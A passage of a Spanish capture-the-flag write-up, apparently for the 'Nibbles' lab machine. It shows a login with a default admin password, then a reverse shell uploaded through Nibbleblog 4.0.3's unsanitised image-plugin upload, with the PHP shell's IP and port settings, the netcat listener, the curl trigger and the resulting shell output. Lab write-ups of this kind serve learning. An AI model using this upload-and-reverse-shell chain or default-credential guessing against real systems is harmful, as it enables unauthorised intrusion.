 <h3 id="pass">CONTRASEÑA</h3>

Intentando encontrar contraseñas por defecto para el usuario admin intenté con `nibbles` y... ¡Estamos dentro!

<h3 style="text-align:center" id="intrusion">INTRUSION</h3><hr>

Con unas credenciales válidas y la versión 4.0.3 de Nibbleblog existe la siguiente <a href="https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html" target="_blank">vulnerabilidad</a>, en esta versión no se sanitiza la extensión de los archivos subidos desde el plugin My image:

1 - Nos descargamos y modificamos el archivo php malicioso que nos entablará la revese shell, podemos encontrarlo en <a href="https://pentestmonkey.net/tools/web-shells/php-reverse-shell" target="_blank">Pentestmonkey</a>:

```bash
  49   │ $ip = '10.10.16.4';  // CHANGE THIS
  50   │ $port = 1234;       // CHANGE THIS
```

<br>

2 - Nos dirigimos a `http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image` y subimos nuestra reverse shell ignorando los warnings.

![](../assets/images/Nibbles/upload.png)

<br>

3 - Nos ponemos por escucha utilizando `netcat` por el puerto dado:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

<br>

4 - Para ejecutar el archivo malicioso hacemos un `curl` a la siguiente ubicacion:

```bash
curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

<br>

5 - Recibimos la reverse shell:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.75] 59992
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 14:13:20 up  2:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
